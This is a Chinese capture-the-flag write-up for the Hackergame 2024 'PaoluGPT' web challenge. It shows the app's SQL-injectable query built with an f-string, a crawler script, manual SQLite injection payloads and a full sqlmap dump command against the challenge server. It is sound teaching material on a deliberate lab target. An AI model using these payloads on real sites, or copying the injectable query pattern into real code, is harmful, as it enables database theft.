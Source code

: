# PaoluGPT

题解作者：[taoky](https://github.com/taoky)

出题人、验题人、文案设计等：见 [Hackergame 2024 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：web

- 题目分值：千里挑一（150）+ 窥视未知（200）

在大语言模型时代，几乎每个人都在和大语言模型聊天。小 Q 也想找一个方便使用的 GPT 服务，所以在熟人推荐下，他注册了某个 GPT 服务，并且付了几块钱。只是出乎小 Q 意料的是，他才用了几天，服务商就跑路了！跑路的同时，服务商还公开了一些用户的聊天记录。小 Q 看着这些聊天记录，突然发现里面好像有 flag……

**[题目附件下载](files/paolugpt.zip)**

**免责声明：本题数据来源自 [COIG-CQIA 数据集](https://modelscope.cn/datasets/m-a-p/COIG-CQIA/)。本题显示的所有该数据集中的数据均不代表 Hackergame 组委会的观点、意见与建议。**

提示：点击下面的「打开/下载题目」按钮会为你创建一个独立的题目环境，有效时间一小时。如果环境遇到问题，可以 [关闭环境](https://chal01-manager.hack-challenge.lug.ustc.edu.cn/docker-manager/stop?{token}) 后再试。

[打开/下载题目](https://chal01-manager.hack-challenge.lug.ustc.edu.cn/docker-manager/start?{token})

## 题解

本题的 idea 是 [@volltin](https://github.com/volltin/) 的。我做了实现。

本题是一道简单的 SQL 注入题，这一点从附件可以很明显发现：

```python
results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```

附件中甚至提供了 DBMS 是 SQLite 的信息，省去了一些猜测的精力。

对于不会 SQL 注入的同学，第一小问也可以写爬虫解决。

### 爬虫

最简单的爬虫使用 Python + requests 库就可以解决。因为网页的结构很简单，甚至不需要~~漂亮汤~~ Beautiful Soup 来解析 HTML。

```python
import requests
import re
from urllib.parse import urljoin, urlparse

LINK = re.compile(r'<a href="(.+)">')


def get_all_links(session, url):
    try:
        response = session.get(url, timeout=10)
        response.raise_for_status()
    except requests.RequestException as e:
        print(f"error on {url}: {e}")
        return []

    links = set()
    for i in LINK.findall(response.text):
        links.add(urljoin(url, i))

    return list(links)


def check_links_for_flag(session, links):
    for link in links:
        try:
            resp = session.get(link, timeout=10)
            resp.raise_for_status()
            if 'flag' in resp.text.lower():
                print(link)
        except requests.RequestException as e:
            print(f"error on {link}: {e}")


def main():
    url = "https://chal01-rw75jygx.hack-challenge.lug.ustc.edu.cn:8443/list"

    session = requests.Session()
    session.cookies.set('session', 'eyJ0b2tlbiI6IjU6TUVRQ0lGN1BSYlBlT2NqSFExRExuNFROVHdwcHp1OTBxU3JBRVJrOWIwdnNDM3B2QWlBU2dZRmpFaEVITjlsYmdvS01MVDZmZFp1RWVIZm1sSXkvK0l4T2Yvb2pYQT09In0.Zyc6qw.RnUrVg6o5TDBuWuENMBztxVcu7o')

    links = get_all_links(session, url)
    print(f"Get {len(links)} links...")

    check_links_for_flag(session, links)


if __name__ == "__main__":
    main()
```

需要注意的是，为了增加人肉处理的难度（鼓励自动化解决问题），我特地在 flag 前面加了很多很多换行，因此需要拖到最下面或者搜索才能看到 flag。

### SQL 注入

#### 手动挡

对于查询：

```SQL
select title, contents from messages where id = 'conversation_id'
```

很明显我们需要让 `conversation_id` 包含 `'` 来做注入，以及用注释 `--` 来扔掉末尾不想要的符号。一个经典验证的例子是，当 `conversation_id` 为 `' or 1=1 --` 时，查询语句就变成了：

```SQL
select title, contents from messages where id = '' or 1=1 --'
```

这个查询恒成立。但是网站代码只会选择第一个显示：

```python
# database.py
def execute_query(s: str, fetch_all: bool = False):
    conn = sqlite3.connect("file:/tmp/data.db?mode=ro", uri=True)
    cur = conn.cursor()
    res = cur.execute(s)
    if fetch_all:
        return res.fetchall()
    else:
        return res.fetchone()

# main.py, view()
@app.route("/view")
def view():
    conversation_id = request.args.get("conversation_id")
    results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
    return render_template("view.html", message=Message(None, results[0], results[1]))
```

如果看了 `list()` 函数，会发现有个 `shown` 条件，因此构造成如下面的查询：

```SQL
select title, contents from messages where id = '' or shown = false --'
```

就能拿到第二个 flag 了（因为 `shown = false` 的只有一条）。

要通过这种方式拿到第一个 flag 也是可以的，只是会更复杂一些。考虑数据库的 `LIKE` 语法：

```SQL
select something from sometable where contents like '%flag%'
```

就可以把所有 `contents` 里面有 `flag` 字符串的行挑出来，因此第一个 flag 可以：

```SQL
select title, contents from messages where id = '' or shown = true and contents like '%flag%' --'
```

这样就得到了第一个 flag。除此之外，另一个方法是使用数据库的 `LIMIT` 和 `OFFSET` 语法：

```SQL
select title, contents from messages where id = '' or 1=1 limit 1 offset 123 --'
```

`limit 1` 表示限制输出 1 行，`offset 123` 表示跳过 123 行（即选择第 124 行）。然后和爬虫类似写个脚本即可。做一千次请求也能获取所有的 flag。

#### 自动挡

为什么不试试 [sqlmap](https://sqlmap.org) 呢？注意题目需要 session，因此调用 sqlmap 的时候必须附带这一信息：

```sh
sqlmap -a --cookie=session=eyJ0b2tlbiI6IjU6TUVRQ0lGN1BSYlBlT2NqSFExRExuNFROVHdwcHp1OTBxU3JBRVJrOWIwdnNDM3B2QWlBU2dZRmpFaEVITjlsYmdvS01MVDZmZFp1RWVIZm1sSXkvK0l4T2Yvb2pYQT09In0.Zyc6qw.RnUrVg6o5TDBuWuENMBztxVcu7o -u 'https://chal01-rw75jygx.hack-challenge.lug.ustc.edu.cn:8443/view?conversation_id=f924cc11-2d09-43a0-bfd8-b2bd1faf9e4c'
```

接下来一路按回车就行。需要注意的是直接对着 `sqlmap` 的 stdout grep 可能是找不到 flag 的，因为：

```console
[WARNING] console output will be trimmed to last 256 rows due to large table size
```

注意到最后：

```console
[17:36:42] [INFO] table 'SQLite_masterdb.messages' dumped to CSV file '/home/username/.local/share/sqlmap/output/chal01-rw75jygx.hack-challenge.lug.ustc.edu.cn/dump/SQLite_masterdb/messages.csv'
```

所以去拿 flag 吧。不过如果希望更加熟悉 SQL 注入的话，看看 sqlmap 发了啥可能会有所帮助。这可以通过添加 `-vvv` 参数来实现。

## 附注

PaoluGPT 的代码有个小问题：如果 `conversation_id` 不存在，会返回 500 错误。但是不会影响求解题目。
